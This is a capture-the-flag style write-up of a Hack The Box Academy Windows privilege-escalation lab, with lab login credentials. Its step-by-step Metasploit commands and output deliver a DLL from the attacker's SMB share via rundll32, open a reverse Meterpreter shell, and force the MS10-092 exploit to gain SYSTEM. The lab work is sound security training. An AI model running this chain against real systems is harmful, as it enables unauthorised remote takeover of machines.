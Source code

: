 # Windows Server

Obtain a shell on the target host, enumerate the system and escalate privileges. Submit the contents of the flag.txt file on the Administrator Desktop.

## 🔍 Objective
Obtain a shell on the target Windows host and escalate privileges to Administrator. Retrieve the contents of flag.txt located on the Administrator Desktop.

## 🖥️ Target Details
RDP Target IP: 10.129.226.66

Hostname: ACADEMY-WINLPE-2K8

Username: htb-student

Password: HTB_@cademy_stdnt!

My Host IP: 10.10.14.45

## 🛠️ Step 1: Start Metasploit Framework
```bash
sudo msfconsole
```
## 🛠️ Step 2: Search and Use SMB Delivery Exploit
```bash
search smb_delivery
use 0
```
**Set Required Options**
```bash
set srvhost 10.10.14.45
set lhost 10.10.14.45
set target 0
exploit
```
**Metasploit Output:**
```bash
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Started reverse TCP handler on 10.10.14.45:4444
[*] Server is running. Listening on 10.10.14.45:445
[*] Run the following command on the target machine:
rundll32.exe \\10.10.14.45\lFTVY\test.dll,0
```
## 💻 Step 3: Execute Payload on Target via RDP
In the RDP session, execute:
```bash
rundll32.exe \\10.10.14.45\lFTVY\test.dll,0
```
## ✅ Step 4: Shell Obtained on Host
You will observe NTLM authentication response and eventually a Meterpreter session:
```bash
[*] Sending stage (177734 bytes) to 10.129.226.66
[*] Meterpreter session 1 opened ...
```
**Check sessions:**
```bash
sessions
```
**Interact with session:**
```bash
sessions -i 1
```
## 🧠 Step 5: Process Migration
**List processes:**
```bash
ps
```
Find conhost.exe (or other stable processes) and note PID, then:
```bash
migrate 2520  # (example PID)
```
**Successful migration message:**
```bash
[*] Migrating from XXXX to 2520...
[*] Migration completed successfully.
```
## 🔍 Step 6: Privilege Escalation - MS10-092
Search for exploit:
```bash
search 2010-3338
use 0
```
**Set Exploit Options:**
```bash
set session 1
set lhost 10.10.14.45
set lport 4443
```
**Show options to confirm:**
```bash
show options
```
**Run Exploit:**
```bash
exploit
```
**Initial result:**
```bash
[-] Exploit aborted due to failure: not-vulnerable...
```
**Force the exploit to run anyway:**
```bash
set ForceExploit true
exploit
```
**You should see:**
`
[*] Creating task...
[*] SUCCESS: The parameters of scheduled task ...
`
## 🔐 Step 7: Confirm Privilege Escalation
You will receive a new session or shell as NT AUTHORITY\SYSTEM.

**Check whoami:**
`whoami`

**Expected Output:**
```bash
nt authority\system
```
## 🏁 Step 8: Retrieve the Flag
**Navigate to Administrator desktop:**
```bash
cd C:\Users\Administrator\Desktop
dir
type flag.txt
```

## 📝 Summary
Step	Action	Status
1	RDP Access	✅
2	SMB Delivery	✅
3	Shell via DLL	✅
4	Process Migration	✅
5	Privilege Escalation with MS10-092	✅
6	SYSTEM Access	✅
7	Flag Retrieved	✅
